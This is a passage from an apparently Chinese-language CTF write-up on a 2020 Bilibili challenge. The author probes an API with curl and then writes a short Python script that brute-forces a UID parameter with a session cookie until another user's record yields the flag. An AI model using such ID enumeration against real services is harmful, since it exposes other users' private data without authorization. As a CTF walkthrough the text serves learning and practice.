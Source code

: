 ```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/5\?uid\=2357****
{"code":"403","data":"","msg":""}
```

果不其然（

看看 Cookies 里的 `role`。跟上一道题一样。估计没有什么有价值的东西。但旁边的文件有意思了。

![](image/2020-10-24-bilibili-ctf/2020-10-26_09-02-36.png)

这里恰好有一个 UID。那么把这个 UID 传过去。

```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/5\?uid\=100336889
{"code":"403","data":"","msg":""}
```

看来答案没这么直接。

在百思不得其解的时候 W 说了句：“它说是别人的秘密。要不用暴搜UID爆破一下吧？”那就爆破一下。

Python 代码很快就写出来了。

```python
import requests

url = 'http://45.113.201.36/api/ctf/5?uid='
cookies = dict(session='(my cookie)')

# 从 UID 100336889 开始，分别向前和向后搜索 1000 个 UID
for target in range(100335889, 100337889):
    res = requests.get(url + str(target), cookies=cookies)
    res.encoding = 'utf-8'
    print(str(target) + ': ' + res.text)
```

运行一下。很快，在 UID = 100336942 的时候 flag 出来了。（难怪叫别人的秘密……flag 在别的 UID 里……）

![](image/2020-10-24-bilibili-ctf/2020-10-26_10-07-47.png)
